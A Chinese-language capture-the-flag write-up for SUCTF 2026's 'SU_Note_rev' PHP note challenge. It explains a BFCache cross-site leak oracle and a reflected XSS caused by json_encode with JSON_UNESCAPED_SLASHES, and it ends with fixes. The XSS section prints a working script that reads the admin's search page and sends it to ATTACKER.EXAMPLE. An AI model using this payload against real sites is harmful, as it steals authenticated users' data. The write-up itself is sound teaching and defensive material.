

# SUCTF 2026 - SU_Note_rev

## 题目简述

`SU_Note_rev` 延续了 `SU_Note` 的 PHP Session 笔记站点：flag 位于 bot 管理员的笔记中，未知主体只含 `0/1`。rev 版本修复了上一题创建管理员会话时泄露 `Set-Cookie` 的问题，但保留了搜索结果与 BFCache 行为之间的差异，因此官方解仍是逐位 BFCache XS-Leak。

总 PDF 给出了另一条更直接的解法：`search.php` 将查询词写入内联脚本时使用了 `JSON_UNESCAPED_SLASHES`，使 `</script>` 可以提前结束原脚本块，形成反射型 XSS。让 bot 直接访问内网的恶意搜索 URL 后，payload 与管理员搜索页同源，能够读取完整 flag 笔记并外带。

## 解题过程

### 1. rev 修复了什么

bot 任务仍会调用 `create_impersonated_session()` 创建管理员 PHP Session，但 rev 版本在启动新会话前临时关闭 Session Cookie：

```php
$originalUseCookies = ini_get('session.use_cookies');
$originalUseOnlyCookies = ini_get('session.use_only_cookies');

ini_set('session.use_cookies', '0');
ini_set('session.use_only_cookies', '0');
session_id($newSessionId);
session_start();
$_SESSION['auth_user'] = $username;
session_write_close();
```

随后恢复原配置与普通用户会话。这样，管理员 Session ID 只作为参数交给 `bot.js`，不会再由 PHP 自动写入攻击者可见的 `/bot/` 响应头。上一题“收集额外 `Set-Cookie` 后直接接管管理员会话”的非预期链因此失效。

### 2. 官方解：搜索结果的 BFCache 侧信道

`search.php` 会在当前会话的笔记标题和内容中搜索 `q`。管理员会话中存在内容为 flag 的系统笔记，所以 `q=<已知前缀+候选位>` 能形成命中 oracle。

页面始终返回 `Cache-Control: no-store`。现代 Chrome 在满足安全限制时仍可把这类页面放入 BFCache；Cookie 或认证状态变化会导致逐出，而且 `no-store` 页面的保留时间更短。完整限制见 [Chrome 的 `no-store` BFCache 说明](https://developer.chrome.com/docs/web-platform/bfcache-ccns?hl=zh-cn)。

题目代码只在搜索结果为零时注册 `unload`：

```javascript
const isZeroResult = /* 服务端计算 */;

if (!isZeroResult) return;
window.addEventListener('unload', () => {
    localStorage.setItem('su_eznote_last_miss_query', searchQuery);
});
```

因此，在题目 bot 的 Chrome 策略下：

- 命中：没有 `unload`，搜索页可以进入 BFCache；
- 未命中：存在 `unload`，搜索页不能进入 BFCache。

Chrome 文档说明桌面 Chrome 的 `unload` 处理器会阻止 BFCache，并正在逐步弃用该事件；见 [Chrome 的 `unload` 弃用说明](https://developer.chrome.com/docs/web-platform/deprecating-unload?hl=zh-cn)。利用依赖题目浏览器版本与策略，不能只在任意本机浏览器中测试后就假设结果一致。

官方 exp 使用如下历史记录链放大这一页的差异：

```text
/a -> /b -> /c -> /d -> /e -> /f
   -> http://127.0.0.1:80/search.php?q=<candidate>
   -> /f -> /g -> history.back() -> ... -> /a
```

攻击页让 bot 的同一标签页先填充若干 BFCache 槽位，再导航到管理员搜索页。搜索页 5 秒后自动回退，攻击页继续回退并通过 `pageshow.persisted` 判断 `/a` 是否仍在 BFCache。官方 exp 的最终映射为：

```text
a_no_from_bfcache  -> hit
a_from_bfcache     -> miss
```

从实际 flag 前缀开始，每轮探测 `prefix + '0'`：收到 `hit` 就追加 `0`，收到 `miss` 就追加 `1`。无日志、bot 超时和浏览器异常必须作为第三种状态重试，不能直接视为 `miss`。题目对 `/bot/` 还有同 IP 每分钟 3 次的限速，逐位脚本需要控制节奏。

### 3. 总 PDF 解法：内网反射型 XSS

页面同时把 `q` 显示在 HTML 输入框和内联 JavaScript 中。输入框使用 `htmlspecialchars()`，这一处没有问题；危险点是脚本上下文：

```php
const searchQuery = <?= json_encode(
    $searchQuery,
    JSON_UNESCAPED_UNICODE | JSON_UNESCAPED_SLASHES
) ?>;
```

`json_encode()` 能生成合法 JavaScript 字符串，但 `JSON_UNESCAPED_SLASHES` 会保留字面量 `</script>`。HTML 解析器不会等待 JavaScript 字符串结束，而会先把它识别成脚本结束标签，所以可用下列结构跳出原脚本：

```html
</script><script>
// attacker code
</script>
```

bot 的 Cookie 固定作用于 `http://127.0.0.1:80/`。向 `/bot/` 提交以 `/` 开头的路径时，服务端会把它拼到内网基址，因此应让 bot 访问：

```text
/search.php?q=<URL 编码后的 payload>
```

payload 在管理员会话的内网搜索页执行后，与 `/search.php` 同源，可直接读取 flag 搜索结果，再把 HTML 发送到自己的接收端：

```html
</script><script>
(async () => {
  const html = await fetch('/search.php?q=SUCTF').then(r => r.text());
  await fetch('https://ATTACKER.EXAMPLE/collect', {
    method: 'POST',
    mode: 'no-cors',
    headers: {'Content-Type': 'application/x-www-form-urlencoded'},
    body: 'search=' + encodeURIComponent(html)
  });
})();
</script>
```

`ATTACKER.EXAMPLE` 必须替换为自己控制且可接收请求的地址；比赛临时 webhook 没有复用价值，不应写入长期题解。收到 HTML 后搜索 `SUCTF{...}` 即可。若平台限制跨源自定义请求，也可改用图片请求或把编码后的少量数据放进普通表单/查询参数，关键是读取发生在内网同源上下文中。



### 4. 修复方式

对内联脚本中的不可信数据，应让 `<`、`>`、`&`、引号等字符不会形成 HTML 结束标签，例如：

```php
json_encode(
    $searchQuery,
    JSON_HEX_TAG | JSON_HEX_AMP | JSON_HEX_APOS | JSON_HEX_QUOT
)
```

更稳妥的做法是把数据放进 `data-*` 属性或 `application/json` 数据块，再由脚本读取，同时配合不允许内联脚本的 CSP。仅做 JavaScript 字符串转义不等于完成 HTML `<script>` 上下文编码。

## 方法总结

- 官方预期仍是 BFCache XS-Leak：搜索命中决定页面能否进入缓存，再用有限槽位和 `pageshow.persisted` 把差异变成逐位 oracle。
- rev 的核心补丁是创建管理员会话时关闭 `session.use_cookies`，它只修复 Session ID 外泄，没有自动消除其它浏览器侧攻击面。
- PDF 解法利用“HTML 解析先于 JavaScript 解析”：只要生成的内联脚本中出现字面量 `</script>`，即使它位于 JS 字符串内部也能提前结束脚本。
- bot 题要区分公网应用与 bot 看到的内网源。payload 必须在带管理员 Cookie 的内网页面执行，才能同源读取敏感搜索结果。
